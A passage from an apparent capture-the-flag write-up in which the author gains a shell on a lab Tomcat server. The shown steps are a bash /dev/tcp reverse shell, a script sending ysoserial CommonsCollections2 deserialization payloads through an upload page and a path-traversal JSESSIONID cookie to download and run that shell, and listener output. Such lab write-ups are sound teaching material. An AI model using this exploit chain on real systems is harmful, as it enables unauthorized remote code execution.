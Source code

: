     bash -i >& /dev/tcp/10.10.14.15/443 0>&1
    

Now I’ll send three payloads. The first will use `curl` to fetch that shell
and write it to `/tmp`. The next will `chmod` it to make it executable. The
third will run it. Because I ended up doing this a handful of times, I wrote a
dummy Bash script to do it for me.

    
    
    #!/bin/bash
    
    ip=$(ip addr | grep "inet 10.10" | awk '{print $2}' | cut -d'/' -f1)
    echo -e "#!/bin/bash\n\nbash -i >& /dev/tcp/${ip}/443 0>&1" > payload.sh
    
    java -jar /opt/ysoserial/ysoserial-master.jar CommonsCollections2 "curl ${ip}/payload.sh -o /tmp/.0xdf" > payload.session
    curl -s 'http://10.10.10.205:8080/upload.jsp?email=abcd' -F 'image=@./payload.session' -x http://127.0.0.1:8080 > /dev/null
    curl -s http://10.10.10.205:8080/service/ -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/payload" > /dev/null
    
    java -jar /opt/ysoserial/ysoserial-master.jar CommonsCollections2 'chmod +x /tmp/.0xdf' > payload.session                
    curl -s 'http://10.10.10.205:8080/upload.jsp?email=abcd' -F 'image=@./payload.session' -x http://127.0.0.1:8080 > /dev/null
    curl -s http://10.10.10.205:8080/service/ -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/payload" > /dev/null
    
    java -jar /opt/ysoserial/ysoserial-master.jar CommonsCollections2 '/tmp/.0xdf' > payload.session                         
    curl -s 'http://10.10.10.205:8080/upload.jsp?email=abcd' -F 'image=@./payload.session' -x http://127.0.0.1:8080 > /dev/null
    curl -s http://10.10.10.205:8080/service/ -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/payload" > /dev/null   
    

I’ll start `python3 -m http.server 80` in the directory with `shell.sh`, and a
`nc` listener on port 443, then run the above Bash script. First I see the hit
on my webserver:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.205 - - [31/Aug/2020 16:45:16] "GET /payload.sh HTTP/1.1" 200 -  
    

Then there’s a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.205.
    Ncat: Connection from 10.10.10.205:42124.
    bash: cannot set terminal process group (944): Inappropriate ioctl for device
    bash: no job control in this shell
    tomcat@VirusBucket:/opt/tomcat$
    